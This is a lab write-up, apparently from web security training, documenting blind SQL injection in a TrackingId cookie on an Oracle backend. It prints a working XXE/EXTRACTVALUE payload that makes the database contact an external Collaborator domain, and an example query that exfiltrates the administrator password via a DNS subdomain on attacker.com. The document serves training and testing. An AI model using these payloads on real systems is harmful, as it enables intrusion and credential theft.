









Lab 16 — Blind SQL injection with out-of-band interaction
⚪ 🟡 Medium📅 2026-05-19
📋 Finding Summary
Field
Value
Type
Web App
Severity
🟡 Medium
CVE / CWE
CWE-89
Date
2026-05-19
🔍 Description
Blind SQL injection with out-of-band interaction occurs when a web application is vulnerable to SQL injection but neither query results nor errors are reflected in the HTTP response, and the injected query is executed asynchronously — meaning timing-based techniques are also ineffective. Instead, an attacker can trigger out-of-band network interactions (such as DNS lookups) from the database server to an external domain they control. By injecting a payload that causes the database to initiate a DNS request, the attacker can confirm that injection is occurring even when the application’s HTTP response gives no indication. In this lab, the TrackingId cookie value is embedded unsanitized into a SQL query executed by an Oracle database, and the Oracle EXTRACTVALUE + xmltype technique is used to trigger a DNS lookup to a Burp Collaborator domain, confirming the out-of-band channel.
🎯 End Goals
Confirm the TrackingId cookie is a blind SQL injection point with no visible errors or timing side-channels
Inject a database-specific out-of-band payload to cause the server to initiate a DNS lookup to a Burp Collaborator domain
Observe the DNS interaction in Burp Collaborator to confirm successful out-of-band injection
🪜 Steps to Reproduce
Browse the lab and observe the server assigns a TrackingId cookie on initial page load
Navigate to the login page and confirm the browser sends the TrackingId on subsequent requests
In Burp Repeater, append a single quote to the TrackingId and observe the page returns 200 OK with no error — confirming this is a blind injection point
Open Burp Collaborator and copy a unique Collaborator payload domain
Construct an Oracle out-of-band payload using EXTRACTVALUE and xmltype with an XXE technique that causes the database to perform a DNS lookup to the Collaborator domain
Send the payload in the TrackingId cookie via Burp Repeater
Poll Burp Collaborator and observe the incoming DNS interactions to confirm the injection was executed
🧠 Analysis
Step 1 — Observe the lab and identify the TrackingId cookie
Browsing the lab homepage showed it is marked “Not solved”. In Burp HTTP History, the initial GET / request returned 200 OK and the server issued a TrackingId cookie (e.g. 6PzZYFOyQs0sT3w4). Navigating to /login confirmed the browser automatically sends this TrackingId on subsequent requests, meaning the value is processed server-side on every page load — making it a candidate injection point.




Step 2 — Observe behavior with a single quote (no visible errors)
A single quote was appended to the TrackingId value: TrackingId=6PzZYFOyQs0sT3w4'. The server returned 200 OK and the page loaded normally with no error message. This does not confirm injection — it simply shows that errors are not reflected in the response. Standard error-based, UNION-based, and timing-based techniques will not work here; an out-of-band channel is required.

Step 3 — Inject the out-of-band XXE/DNS payload
A Burp Collaborator domain was generated and used to construct an Oracle out-of-band payload. The technique uses EXTRACTVALUE with an xmltype call that defines an XML external entity pointing to an attacker-controlled URL, forcing the Oracle database to perform a DNS lookup when parsing the XML:
TrackingId=6PzZYFOyQs0sT3w4'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://xabz7cz8by2g8g53a2xq4iaas1ysmka9.oastify.com/">%remote;]>'),'/l') FROM dual)-- -
Sending this payload in Burp Repeater returned HTTP 500 Internal Server Error — indicating the XML was parsed and the external entity fetch was attempted. A URL-encoded variant of the same payload returned 200 OK, confirming the injection executed successfully and the lab registered it as solved.


Step 4 — Confirm DNS interaction in Burp Collaborator
Polling Burp Collaborator showed 4 incoming DNS lookups of type AAAA for the domain xabz7cz8by2g8g53a2xq4iaas1ysmka9.oastify.com, received from IP address 3.251.105.20 at 2026-05-19 17:29:37 UTC. This confirmed that the Oracle database server initiated out-of-band DNS requests as a result of the injected payload — proving the injection point is reachable and exploitable. The lab was marked “Solved”.


🎯 Impact
An attacker can confirm SQL injection and identify the database backend purely through out-of-band DNS interactions, with no error messages, data, or timing differences visible in the HTTP response. This technique bypasses all response-based and timing-based detection methods and works even when the query is executed asynchronously. The out-of-band channel can be extended to exfiltrate sensitive data — for example, by embedding query results in the DNS subdomain lookup (e.g. (SELECT password FROM users WHERE username='administrator')||'.attacker.com') — enabling full blind data exfiltration with no in-band indicators whatsoever.